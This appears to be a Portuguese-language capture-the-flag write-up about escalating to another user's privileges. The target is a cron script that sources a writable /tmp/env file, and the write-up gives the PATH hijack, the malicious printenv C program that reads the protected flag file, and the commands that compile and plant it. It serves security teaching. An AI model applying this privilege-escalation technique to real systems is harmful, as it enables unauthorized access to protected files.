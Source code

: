# British Punctuality - CTF Extra

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:

![CTF Opcional 1 a](../img/ctfopcional1a.png)

Verificou-se também que `/tmp` é o único diretório onde o nosso utilizador tem permissões de escrita.
Neste diretório existe um ficheiro `last_log.txt` que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Inicialmente, o conteúdo de `last_log ` é o seguinte:

```note
SHELL=/bin/sh
PWD=/home/flag_reader
LOGNAME=flag_reader
HOME=/home/flag_reader
SHLVL=2
PATH=/bin:/usr/bin:/usr/local/bin
_=/bin/printenv
I'm going to check if the flag exists!
File exists!!
TODO - Implement this in the near future!
```

Quando o **cronscript** é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar dentro dele um binário printenv que execute um código controlado por nós:

```bash
$ mkdir myenv
$ cd myenv
$ touch printenv.c
```

Este ficheiro c terá o código que mostra a flag:

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

Este código é colocado em printenv.c linha a linha da seguinte forma:

```bash
$ echo "linha" >> printenv.c
```

No final compilamos o código:

```bash
$ gcc -Wall -o printenv printenv.c
```

No entanto, como alteramos a variável de ambiente PATH, o programa não vai encontrar o binário `cat` no novo diretório, pelo que temos de o copiar para lá: 

```
$ cp /bin/cat /tmp/myenv
```

Finalmente, esperamos uma nova execução de `my_script.sh` através do **cronscript** e verificou-se que o `last_log` continha a flag tal como previsto:

![CTF Opcional 1 b](../img/ctfopcional1b.png)
